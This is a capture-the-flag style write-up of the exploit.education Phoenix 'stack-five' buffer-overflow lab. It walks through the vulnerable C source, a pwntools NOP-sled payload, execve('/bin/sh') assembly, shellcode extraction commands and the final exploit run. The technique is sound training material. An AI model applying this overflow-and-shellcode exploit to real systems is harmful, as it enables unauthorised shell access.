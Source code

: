 
As opposed to executing an existing function in the binary, this time we’ll be introducing the concept of “shell code”, and being able to execute our own code.

**Hints**

-   Don’t feel like you have to write your own shellcode just yet – there’s plenty on the internet.
-   If you wish to debug your shellcode, be sure to make use of the [breakpoint](https://en.wikipedia.org/wiki/Breakpoint) instruction. On i386 / x86_64, that’s 0xcc, and will cause a SIGTRAP.
-   Make sure you remove those breakpoints after you’re done.

```c
/*
 * phoenix/stack-five, by https://exploit.education
 *
 * Can you execve("/bin/sh", ...) ?
 *
 * What is green and goes to summer camp? A brussel scout.
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void start_level() {
  char buffer[128];
  gets(buffer);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```

# Solution

Use pattern create and feed in the data to crash the program

![](_attachments/Pasted%20image%2020230324141500.png)

Not too sure what the goal is here, if its just to run shellcode, then we can write a simple hello world in assembly to demonstrate this process.

We need to construct our payload so it resembles:
nop sled -> shellcode -> padding -> rbp -> rip(point this at the start of the stack so the nop sled runs)


```python
from pwn import *

shellcode = b"\xCC"


# build the payload
payload = b"\x90" * 50
#sigtrap for testing
payload += shellcode
#padd till end
payload += b"A" * (136 - len(payload))
# overwrite RIP
payload += p64(0x7fffffffe5b0)

print(payload)
```

In order to debug this, use the syntax ` r <<< $(python ~/s5.py)` within gdb.

You will see once the fuction attempts to return from start_level(), it ends up in your nop sled.

![](_attachments/Pasted%20image%2020230324144055.png)

Now we just need to craft some proper shellcode, and be on our way:

```c
; execve("/bin/sh", ["/bin/sh"], NULL)

section .text
		global _start

_start:
		xor     rdx, rdx
		mov     qword rbx, '//bin/sh'
		shr     rbx, 0x8
		push    rbx
		mov     rdi, rsp
		push    rax
		push    rdi
		mov     rsi, rsp
		mov     al, 0x3b
		syscall
```
and compile it into shellcode form with:

```bash
nasm -f elf64 es.s -g ;ld -s es.o -o es
objcopy -j.text -O binary es shellFormat.bin
hexdump -v -e '"\\""x" 1/1 "%02x" ""' shellFormat.bin
```

This will output in a python friendly form, for copy pasting into your script.
```python
shellcode = b"\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"
```

none of my shellcodes work inside the VM... kinda lame. Heres one i pulled from `https://shell-storm.org/shellcode/files/shellcode-806.html`

```python
shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
```

This one does the trick.

So now the final solution is:

```python
#!/usr/bin/env python
from pwn import *

shellcode = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
# build the payload
payload = b"\x90" * 30
#sigtrap for testing
payload += shellcode
#padd till end
payload += b"A" * (136 - len(payload))
# overwrite RIP
payload += p64(0x7fffffffe5d0)

print(payload)
```

and to run it:

```bash
(python s5.py; cat) | /opt/phoenix/amd64/stack-five
```

You need to use cat to maintain the stdio once your exploit works.


